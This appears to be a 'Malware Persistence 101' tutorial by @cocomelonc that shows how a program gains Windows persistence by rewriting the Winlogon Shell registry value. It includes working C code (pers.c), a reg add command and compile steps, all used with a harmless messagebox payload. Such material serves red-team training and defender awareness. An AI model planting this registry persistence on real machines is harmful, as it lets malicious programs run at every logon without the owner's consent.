

# 05 persistence - winlogon process

The Winlogon process is responsible for user logon and logoff, startup and shutdown and locking the screen. Authors of malware could alter the registry entries that the Winlogon process uses to achieve persistence.    

The following registry keys must be modified in order to implement this persistence technique:    

- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`   
- `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`   

However, local administrator privileges are required to implement this technique.  

Let's say we have a "malware" example:    

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

As you can see, it's just a pop-up message as usually.    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

    

The generated `hack.exe` needs to be dropped into the victim's machine.

Changes to the `Shell` registry key that include an malicious app will result in the execution of both `explorer.exe` and `hack.exe` during Windows logon.

This can be done immediately using the script below:    

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows persistence via winlogon keys
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

   

And see everything in action. First of all, check registry keys:    

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

   

Copy malicious app to `C:\Windows\System32\`:   

    

And run:

```powershell
.\pers.exe
```

    

Then, logout and login:   

    

    

According to the logic of the our malicious program, "Hello, Prishtina!" messagebox popped up:    

    


Let's check process properties via Process Hacker 2:    

    

As you can see, the malware will be executed during Windows authentication.    
